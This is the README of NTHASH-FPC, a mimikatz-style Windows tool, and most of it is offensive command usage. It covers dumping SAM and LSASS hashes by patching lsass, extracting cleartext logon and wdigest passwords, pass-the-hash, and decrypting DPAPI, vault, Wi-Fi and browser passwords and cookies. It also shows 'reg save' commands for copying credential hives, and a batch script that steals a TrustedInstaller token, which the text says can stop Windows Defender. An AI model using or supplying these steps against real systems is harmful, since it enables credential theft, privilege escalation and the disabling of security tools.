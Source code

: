 # NTHASH-FPC <br/>
A tribute to https://github.com/gentilkiwi/mimikatz... <br/>
And generally speaking a tool to handle windows passwords and perform lateral movement. <br/>
https://attack.mitre.org/matrices/enterprise/windows/ is definitely worth reading as well. <br/>

<br/>
Command line as below: <br/>
NTHASH /setntlm [/server:hostname] /user:username /newhash:xxx <br/>
NTHASH /setntlm [/server:hostname] /user:username /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newpwd:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldpwd:xxx /newhash:xxx <br/>
NTHASH /changentlm [/server:hostname] /user:username /oldhash:xxx /newhash:xxx <br/>
NTHASH /getntlmhash /password:password <br/>
NTHASH /getsid /user:username [/server:hostname] <br/>
NTHASH /getusers [/server:hostname] <br/>
NTHASH /getdomains [/server:hostname <br/>
NTHASH /dumpsam <br/>
NTHASH /dumphashes [/offline] <br/>
NTHASH /getsamkey [/offline] <br/>
NTHASH /getsyskey [/offline] <br/>
NTHASH /getlsakeys <br/>
NTHASH /wdigest <br/>
NTHASH /logonpasswords <br/>
NTHASH /pth /user:username /password:myhash /domain:mydomain <br/>
NTHASH /enumcred <br/>
NTHASH /enumcred2 <br/>
NTHASH /enumvault <br/>
NTHASH /chrome [/binary:path_to_database] <br/>
NTHASH /ccookies [/binary:path_to_database] <br/>
NTHASH /firefox [/binary:path_to_database] <br/>
NTHASH /fcookies [/binary:path_to_database] <br/>
NTHASH /bytetostring /input:hexabytes <br/>
NTHASH /stringtobyte /input:string <br/>
NTHASH /widestringtobyte /input:string <br/>
NTHASH /base64encodew /input:string <br/>
NTHASH /base64encode /input:string <br/>
NTHASH /base64decode /input:base64string <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /getlsasecret /input:secret <br/>
NTHASH /dpapimk <br/>
NTHASH /cryptunprotectdata /binary:filename <br/>
NTHASH /cryptunprotectdata /input:string <br/>
NTHASH /cryptprotectdata /input:string <br/>
NTHASH /decodeblob /binary:filename [/input:hexabytes] <br/>
NTHASH /decodemk /binary:filename [/input:hexabytes] <br/>
NTHASH /gethash /mode:hashid /input:hexabytes <br/>
NTHASH /gethmac /mode:hashid /input:hexabytes /key:hexabytes <br/>
NTHASH /getcipher /mode:cipherid /input:hexabytes /key:hexabytes <br/>
NTHASH /getlsasecret /input:secret <br/>
NTHASH /dpapi_system <br/>
NTHASH /runasuser /user:username /password:password [/binary: x:\folder\bin.exe] <br/>
NTHASH /runastoken /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runaschild /pid:12345 [/binary: x:\folder\bin.exe] <br/>
NTHASH /runas [/binary: x:\folder\bin.exe] <br/>
NTHASH /runts /user:session_id [/binary: x:\folder\bin.exe] <br/>
NTHASH /enumpriv <br/>
NTHASH /enumproc <br/>
NTHASH /dumpproc /pid:12345 <br/>
NTHASH /runwmi /binary:x:\folder\bin.exe [/server:hostname] <br/>
NTHASH /context <br/>
NTHASH /a_command /verbose <br/>
NTHASH /a_command /system <br/>

<br/>

<b>changentlm</b>, using a legacy api, may not work if your ntlm hashes are encrypted with AES (i.e starting with win10 1607. <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>setntlm</b> on the other hand should always work and allow one to bypass password policy.  <br/>
Credits goes to https://github.com/vletoux/NTLMInjector <br/>

<b>dumpsam</b> will temporarily patch a module in lsass to be able to dump your SAM ntlm hashes from the lsass memory (need to cover/test as many windows version as possible). <br/>

<b>dumphash and dumphashes</b> will read the registry - you need to run as system to perform this action <br/>.
Or you can use the /system switch <br/>.
You can also perform this offline (and then no longer require to run as system). <br/>
You can use reg save hklm\sam sam.sav and reg save hklm\system system.sav to generate offline hives. <br/>
Both the RC4 and AES cipher are supported. <br/>
https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/ is a must read to understand RC4 vs AES. <br/>

<b>cryptunprotectdata and cryptprotectdata</b>  will decrypt datas using dpapi under the runnin user context. <br/>
You can for example decrypt the wireless stored password in C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\{INTERFACE UUID} .<br/>
Retrieve the xml keyMaterial value and run nthash /cryptunprotectdata /input:keymateriel /system .<br/> 
Note that this data is encrypted/decrypted under the system account. <br/>

<b>enumcred</b> will use CredEnumerate windows API to enumerate the logged on user credentials. <br/>
<b>enumcred2</b> will use CredEnumerate windows API to enumerate the logged on user credentials while also patching lsass to dump all credentials <br/>

<b>enumvault</b> will use vaultcli.dll windows API to enumerate the logged on user vault credentials. <br/>

<b>logonpasswords</b> will dump lsasrv logon sessions primary credentials (hashes) and credential managers (clear text) <br/>

<b>wdigest</b> will dump wdigest sessions credentials (clear text) <br/>

<b>runastoken</b> can be used to run a process under a system account. <br/>
Once under a system account, you can also "steal" a token from trustedinstaller (net start trustedinstaller before hand. <br/>
Note that you can steal a trustedinstaller token directly by using the /system switch. <br/>
With a trustedinstaller token, you can perform actions like stop windefend (or kill the process, or modify the AV settings, etc). <br/>
See example below where you would start the trustedinstaller service, retrieve its pid and run a process as the account. <br/>
<i>
@echo off <br/>
net start trustedinstaller <br/>
for /F "tokens=1" %%K in ('
   nthash-win64 /enumproc ^| findstr /i "trustedinstaller"
') do (
   nthash-win64 /runastoken /pid:%%K /system
)
<br/>
  </i>

<b>runaschild</b> can be used to run a process as a child of another existing/parent process. <br/>
Note that some apps (like cmd.exe) will crash right after initialization with a c0000142. <br/>
Wierdly enough, loading notepad.exe with this method and then launching cmd.exe from there works...

<b>runas</b> will launch a process in elevated mode. <br/>

<b>runts</b> will launch a process in the context of another TS session. <br/>
Note that this one needs the setcbprivilege so you will have to find a token with such privilege first (like winlogon.exe). <br/>

todo/news: <br/>
-decrypt sam hashes online (rather than patching lsass) and offline : done in v1.1 <br/>
-deal with new AES cipher used in latest win10 1607 : done in 1.2 <br/>
-enum Lsasrv.dll!LogonSessionList: done in 1.3 <br/>
-enum Wdigest.dll!l_LogSessList: done in 1.3 <br/>
-decrypt dpapi encrypted vault and/or credentials : done in 1.4 <br/>
-patch LogonSessionList and perform pth: done in 1.4 <br/>
-decrypt chrome and firefox passwords: done in 1.4 <br/>
-decrypt firefox and chrome passwords/cookies : done in 1.5 </br>
-dpapimk command to dump all masterkeys : done in 1.6 </br>
-getlsassecret using LsaRetrievePrivateData: done in 1.6</br>
-todo : work out offline decryption of lsasecrets as well as currval and oldval </br>
-todo : work out LsaICryptUnprotectData thru dll injection </br>
-todo : work out masterkey decryption based on sha1 user password: done in 1.7 </br>
-todo : work out credential blob decryption based on decrypted masterkey: done in 1.7 </br>

